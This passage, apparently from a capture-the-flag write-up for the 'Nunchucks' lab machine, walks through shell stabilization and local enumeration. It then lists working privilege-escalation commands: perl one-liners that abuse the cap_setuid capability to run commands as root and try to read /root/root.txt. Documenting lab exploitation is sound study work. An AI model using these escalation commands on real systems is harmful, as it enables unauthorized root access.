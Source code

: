 <br/><br/>

First, I perform a console treatment to have a better mobility when enumerating the system. I check that I already have access to the contents of the first flag, and I can! If I use some basic reconnaissance commands, I come across a possible attack vector that allows me to perform privilege escalation. I find that the `pkexec` binary has **SUID** permissions, but I will not exploit this vulnerability, I will look for another way. The `perl` binary has the ability to set the user's identity (**[cap_setuid+ep](https://man7.org/linux/man-pages/man7/capabilities.7.html){:target="_blank"}**), which would allow me to run a command that first sets itself as the `root` user and then runs a command as him. I turn to [GTFObins](https://gtfobins.github.io/gtfobins/perl/#capabilities){:target="_blank"} and find what I need, but I have problems with some commands, which makes me suspect that there are some restrictions or security measures implemented.

```bash
script /dev/null -c bash            [Ctrl+z]
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 29 columns 128

uname -a
lsb_release -a
id
groups
sudo -l

find \-perm -4000 2>/dev/null
# --> ./usr/bin/pkexec
ls -l ./usr/bin/pkexec

getcap -r / 2>/dev/null
# --> /usr/bin/perl = cap_setuid+ep

perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'   # :(
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "bash -p";'   # :(

perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'    # root

perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "cat /root/root.txt";'    # :(
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "ls /root/root.txt";'     # /root/root.txt
```

<br/>
<img src="{{ site.img_path }}/nunchucks_writeup/Nunchucks_25.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nunchucks_writeup/Nunchucks_26.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nunchucks_writeup/Nunchucks_27.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nunchucks_writeup/Nunchucks_28.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
